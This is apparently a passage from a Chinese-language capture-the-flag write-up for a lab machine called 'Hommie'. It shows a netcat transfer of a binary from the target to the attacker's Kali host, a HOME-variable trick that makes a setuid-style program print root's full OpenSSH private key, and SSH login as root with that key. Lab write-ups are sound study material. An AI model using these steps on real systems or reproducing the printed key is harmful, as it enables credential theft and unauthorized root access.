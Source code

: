 我们看逆向分析一下这个程序

```Bash
nc -lp 1234 >showmethekey //kali执行
nc 192.168.9.3 1234 < showMetheKey //靶机执行
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/7.Hommie.004.png)

读取环境变量中的Home 对应的私钥

那我们修改当前环境变量为我们想要获取私钥的用户即可

```Bash
alexia@hommie:/opt$ export HOME=/root
alexia@hommie:/opt$ ./showMetheKey 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAvBYog1I3rTTmtMw6i7oPRYy7yj8N6zNT3K9QhalnaTF+Md5NjbX5
hhNfZjO0tNbMGEeJtNTc3FpYWcAujrrd3jO5MzHUWAxQoyYYrZOFj2I5Fz/0RxD7e89H11
5nT7+CSUeddP/UeoyvSPgaruwrwD+dUl7+GiXo3sc5vsq3YufTYh1MlMKb/m7KmVk5n4Tk
/IFJwuuc3U4OZiRwXOmK4W2Gfo0Fonu6vFYmhpcCsi7V8g3hpVmOZIU8ZUtG1YbutCVbOC
EGyc1p5nbnyC0IIF5Y2EhjeevX8gmj4Kdv/y6yuvNdsJKm+ed2EEY9AymmPPwIpQshFwKz
Y0yB8N1jkQAAA8BiCyR9YgskfQAAAAdzc2gtcnNhAAABAQC8FiiDUjetNOa0zDqLug9FjL
vKPw3rM1Pcr1CFqWdpMX4x3k2NtfmGE19mM7S01swYR4m01NzcWlhZwC6Out3eM7kzMdRY
DFCjJhitk4WPYjkXP/RHEPt7z0fXXmdPv4JJR510/9R6jK9I+Bqu7CvAP51SXv4aJejexz
m+yrdi59NiHUyUwpv+bsqZWTmfhOT8gUnC65zdTg5mJHBc6YrhbYZ+jQWie7q8ViaGlwKy
LtXyDeGlWY5khTxlS0bVhu60JVs4IQbJzWnmdufILQggXljYSGN569fyCaPgp2//LrK681
2wkqb553YQRj0DKaY8/AilCyEXArNjTIHw3WORAAAAAwEAAQAAAQA/OvPDshAlmnM0tLO5
5YLczsMS6r+zIj4/InDffmPVaV4TRbisu1B3Umvv39IQOWXDg8k3kZfuPDEXexQrx4Zu/N
R18XqBXyJ8toH1WHK+ETdAKa/ldEAXD0gHjyUMGkWifQDiJF86E7GZxk6yH5NVvg0Vc/nY
sIXo3vD6wwuDo/gj+u4RRYMH3NYkLSj/O67cxGXnTOZPGzGsFTrE218BNtNqbRBR9/immU
irjugqebxY135Z4oECe/Hv4mP2e7n5QVO8FnYklQ4YU6y0ZTAMtjZCAhslXSKvaJPLjXuk
/HpdYhSoojm3vTAq/NT/oir0wA2ZYGdnF/Bxm6v/mntBAAAAgF2pqZEe9UqzcsAfOujr6z
DMRgPpl8qsdhDz6aftdg24AYmgXJ1D7PWUDpU6puO3VxJGrOwvcgD6xELRTxeFjd/2ssrh
4OO/kTvK4K0WVB/bnZ4y724iLcThfHDbzTTc5ckn45tyso8540iKha5ay1i24GwRPWddie
B/qcB1bHNOAAAAgQDmmptuwTRwUSiU1NtZRnJFvxvzLw6Wy/Cb2G+n5KY0ce5cYHT2HSIr
zsbPaDXQNBFy4iu1DAXAJJXTrxjOaAeLVYSb/8eZ1dhcgkxoAC8i2l6NwNmsjhGQKv++fV
qMfIdzVmriLXBZf7DU97YZeDIOrdOOV5CHhq+37i4xNdK18wAAAIEA0Mzc8HYvrXk4ecyi
KXP5u2Zxw2LADJ8DFeKWZmCUuNKFD1TuqdauxKxIVKVDaHvcnEr1bOiEBBso/X1CCtKjE+
12ZOWvqZ4fORxiNs9n/9YxlUSDAw7kyKd9H7dRRFdtb80OgDiwf18tDlEdboGWm/DR0NPq
gmxzbd40GES6DWsAAAALcm9vdEBob21taWU=
-----END OPENSSH PRIVATE KEY-----
```


```Bash
复制写入私钥然后连接root
vi id\_rsa
chmod 600 id\_rsa
ssh -i id\_rsa root@127.0.0.1
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/7.Hommie.005.png)


